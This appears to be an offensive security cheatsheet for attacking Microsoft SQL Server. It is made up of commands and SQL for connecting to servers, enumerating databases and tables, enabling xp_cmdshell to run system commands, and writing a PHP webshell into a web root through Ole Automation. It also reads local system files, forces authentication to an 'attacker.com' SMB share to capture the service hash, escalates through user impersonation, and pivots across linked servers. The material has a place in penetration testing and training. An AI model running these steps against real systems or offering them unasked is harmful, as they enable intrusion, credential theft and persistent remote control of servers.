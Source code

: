 # MSSQL Enumeration Cheatsheet

Enumerating MSSQL services (ports 1433, 2433).

## 1. Connect to MSSQL (sqlcmd)
Connect to an MSSQL server from Windows.
```bash
sqlcmd -S target.com -U user -P 'password' -y 30 -Y 30
```
- `-S`: Target server.
- `-U user`: Username.
- `-P 'password'`: Password.
- `-y 30 -Y 30`: Adjusts output width.

## 2. Connect to MSSQL from Linux (sqsh)
Connect to MSSQL from Linux.
```bash
sqsh -S target.com -U user -P 'password' -h
```
- `-S`: Target server.
- `-U user`: Username.
- `-P 'password'`: Password.
- `-h`: Disables headers for cleaner output.

## 3. Connect to MSSQL with Windows Auth (sqsh)
Connect to MSSQL using Windows Authentication.
```bash
sqsh -S target.com -U .\\user -P 'password' -h
```
- `-U .\\user`: Username with local host prefix for Windows Auth.

## 4. Connect to MSSQL (mssqlclient.py)
Connect to MSSQL using Impacket's mssqlclient.py.
```bash
mssqlclient.py -p 1433 user@target.com
```
- `-p 1433`: Specify port.
- `user@target.com`: Username and target server.

## 5. Show MSSQL Databases
List all available databases in MSSQL.
```sql
SELECT name FROM master.dbo.sysdatabases
GO
```

## 6. Select MSSQL Database
Switch to a specific database in MSSQL.
```sql
USE dbname
GO
```

## 7. Show MSSQL Tables
List tables in the selected database in MSSQL.
```sql
SELECT table_name FROM dbname.INFORMATION_SCHEMA.TABLES
GO
```

## 8. Select MSSQL Table Data
Retrieve all entries from a table in MSSQL.
```sql
SELECT * FROM users
GO
```

## 9. Enable xp_cmdshell in MSSQL
Enable command execution in MSSQL (requires admin privileges).
```sql
EXECUTE sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
EXECUTE sp_configure 'xp_cmdshell', 1
GO
RECONFIGURE
GO
```

## 10. Execute System Command in MSSQL
Run a system command via MSSQL (if xp_cmdshell enabled).
```sql
xp_cmdshell 'whoami'
GO
```

## 11. Enable Ole Automation Procedures in MSSQL
Enable file writing capabilities in MSSQL (requires admin privileges).
```sql
sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
sp_configure 'Ole Automation Procedures', 1
GO
RECONFIGURE
GO
```

## 12. Create a File in MSSQL
Write a file (e.g., webshell) using MSSQL (if Ole Automation enabled).
```sql
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', NULL, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
GO
```

## 13. Read Local Files in MSSQL
Read local files in MSSQL (requires read access).
```sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
GO
```

## 14. Steal MSSQL Service Hash (xp_dirtree)
Force MSSQL to authenticate to a fake SMB share.
```sql
EXEC master..xp_dirtree '\\attacker.com\share\'
GO
```

## 15. Steal MSSQL Service Hash (xp_subdirs)
Force MSSQL to authenticate to a fake SMB share.
```sql
EXEC master..xp_subdirs '\\attacker.com\share\'
GO
```

## 16. Identify Users to Impersonate in MSSQL
List users that can be impersonated in MSSQL.
```sql
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```

## 17. Check Current User and Role in MSSQL
Verify current user and sysadmin role status in MSSQL.
```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```

## 18. Impersonate a User in MSSQL
Impersonate a user and check privileges in MSSQL.
```sql
EXECUTE AS LOGIN = 'username'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```

## 19. Revert Impersonation in MSSQL
Revert to the original user in MSSQL.
```sql
REVERT
GO
```

## 20. Identify Linked Servers in MSSQL
List linked servers in MSSQL.
```sql
SELECT srvname, isremote FROM sysservers
GO
```

## 21. Query Linked Server in MSSQL
Check user and privileges on a linked server.
```sql
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [linkedserver.com]
GO
```